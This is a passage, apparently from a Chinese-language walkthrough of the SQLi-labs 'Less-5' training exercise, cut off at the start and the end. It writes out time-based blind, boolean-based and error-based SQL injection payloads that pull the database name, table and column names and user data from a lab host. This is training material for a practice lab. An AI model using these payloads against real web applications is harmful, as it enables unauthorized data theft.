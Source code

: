 ```
http://daishen.ltd:1112/Less-5/?id=1" and if(left((select username from users order by id limit 0,1),4)='dumb' ,sleep(5),1)--+

http://daishen.ltd:1112/Less-5/?id=1" and if(left((select password from users order by id limit 0,1),4)='dumb' ,sleep(5),1)--+
```

需要注意的是，mysql对大小写不敏感，所以你不知道是Dumb 还是dumb。

### **方法二，布尔型手工注入**

在布尔型注入中，**正确会回显，错误没有回显**，以此为依据逐字爆破，

暴库payload

```
http://daishen.ltd:1112/Less-5/?id=1" and left((select database()),1)='s' --+

http://daishen.ltd:1112/Less-5/?id=1" and left((select database()),2)='se' --+
```

爆表paylaod

```
http://daishen.ltd:1112/Less-5/?id=1" and left((select table_name from information_schema.tables where table_schema=database() limit 3,1),1)='u' --+

http://daishen.ltd:1112/Less-5/?id=1" and left((select table_name from information_schema.tables where table_schema=database() limit 3,1),2)='us' --+
```

爆列名payload

```
http://daishen.ltd:1112/Less-5/?id=1" and left((select column_name from information_schema.columns where table_name='users' limit 0,1),1)='i' --+

http://daishen.ltd:1112/Less-5/?id=1" and left((select column_name from information_schema.columns where table_name='users' limit 0,1),2)='id' --+
```

爆字段payload

```
http://daishen.ltd:1112/Less-5/?id=1" and left((select username from users limit 0,1),1)='d' --+
```

需要注意的是，mysql对大小写不敏感，所以你不知道是Dumb 还是dumb。

### 方法三：报错注入

爆库

```
?id=1" and extractvalue(1,concat(0x23,database(),0x23))--+
```

 爆表名
